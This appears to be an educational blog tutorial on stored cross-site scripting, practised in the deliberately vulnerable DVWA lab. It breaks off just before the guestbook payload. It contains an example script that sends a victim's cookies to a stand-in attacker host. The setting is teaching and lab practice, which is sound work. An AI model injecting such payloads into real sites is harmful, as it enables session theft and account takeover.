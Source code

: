 This note delves into stored XSS (Cross-Site Scripting) and its exploitation in DVWA (Damn Vulnerable Web Application). Understanding the mechanics and implications of stored XSS enhances our grasp of potential risks to web applications. Employing DVWA as a secure testing environment, we’ll analyze how malicious actors exploit this vulnerability to inject harmful scripts, compromising web application security. Join me in exploring the intricacies of stored XSS and its exploitation within the context of DVWA.
# Stored XSS

This vulnerability occurs when an insecure web application accepts input from untrusted sources, stores it, and later incorporates this harmful content into its HTTP responses.

**Example**

Imagine a social media platform where users can post messages and comments on each other’s profiles. The platform allows users to include HTML and JavaScript code in their posts. A user with malicious intent decides to exploit this by crafting a seemingly harmless comment like this:

```html
<script>  // Malicious script to steal user cookies  
  const attackerScript = new Image();  
  attackerScript.src = "http://malicious-site.com/steal?cookie=" + document.cookie;</script>
```

Upon the victim’s visit to the malicious comment, their browser executes the embedded JavaScript code, sending the user’s sensitive session information in cookies to the attacker’s server. Consequently, the victim’s account becomes compromised. This scenario arises because the platform’s server stores the comment, causing the malicious script to execute each time the comment-loaded page is accessed.

This serves as a clear illustration of stored XSS, wherein the malevolent script is retained on the server and triggered whenever vulnerable users access the page. Robust applications prioritize proper sanitization and encoding of user input prior to display, effectively preventing the activation of harmful scripts.

**Now that we’ve examined what stored XSS is, let’s explore how to exploit it in DVWA (Damn Vulnerable Web Application).**

Log in to DVWA using either the default credentials “admin” and “password,” or the credentials you have set up. We will begin by testing the low-security level, then move on to the medium level, and finally, the high-security level.

![](https://miro.medium.com/v2/resize:fit:875/1*pVnM-EbDJA4z6FumnCZpQw.png)

dvwa login form

**Low security**

Click on “DVWA Security,” then choose the “Low” security level and proceed by clicking the “Submit” button as depicted below.

![](https://miro.medium.com/v2/resize:fit:875/1*VJfgW6uAc5F9er3au3iGJQ.png)

dvwa low security level settings

Navigate to “XSS (Stored)” and input a name of your choice into the designated field. For the message field, insert the payload below before clicking the “Sign Guestbook” option.
